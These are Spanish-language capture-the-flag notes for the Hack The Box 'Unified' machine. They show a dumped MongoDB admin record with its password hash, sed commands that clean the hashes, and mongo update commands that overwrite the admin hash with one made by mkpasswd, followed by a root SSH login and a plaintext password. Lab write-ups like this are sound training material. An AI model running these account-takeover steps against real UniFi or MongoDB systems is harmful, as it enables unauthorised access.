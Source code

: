         "email" : "james@unfiied.htb",
        "name" : "james",
        "x_shadow" : "$6$ON/tM.23$cp3j11TkOCDVdy/DzOtpEbRC5mqbi1PPUM6N4ao3Bog8rO.ZGqn6Xysm3v0bKtyclltYmYvbXLhNybGyjvAey1",
        "requires_new_password" : false,
        "time_created" : NumberLong(1640910161),
        "last_site_name" : "default"
}
unifi@unified:/usr/lib/unifi/bin$ 


cat hashes.txt | sed -e 's/"x_shadow"//g' | tr ':' ' ' | sed -e 's/"//g' | sed -e 's/,//g' > clean_hashes.txt

La contraseña no se puede crackear

CAMBIO DE CONTRASEÑA ADMINISTRADOR en MONGODB por UNA PROPIA
================================================================================================================================================================

MONGO
=====
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`
10.129.237.149


Creamos nueva contraseña en local
----------------------------------
La contraseña es de tipo SHA512 (por el $6)

└─$ mkpasswd -m sha-512 Password1234
$6$fkPl.lGMhk9oxMdp$.KRwdtLB3YlWLhf0w6lu/swzjPc5VQK1P.6rkwapa.xB1v28/6HPm4lGF37gUJCaaNi2vV6.3G4w6O4NSX1bC/

En máquina victima
------------------
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'

mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$fkPl.lGMhk9oxMdp$.KRwdtLB3YlWLhf0w6lu/swzjPc5VQK1P.6rkwapa.xB1v28/6HPm4lGF37gUJCaaNi2vV6.3G4w6O4NSX1bC/"}})'


Verificando contraseña cambiada:
---------------------------
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);" | grep -B5 "1bC"


NotACrackablePassword4U2022



┌──(kali㉿kali)-[~/Hacking/hackthebox/TIER2/unified]
└─$ ssh root@unified    
The authenticity of host 'unified (10.129.237.149)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added 'unified' (ED25519) to the list of known hosts.
root@unified's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)
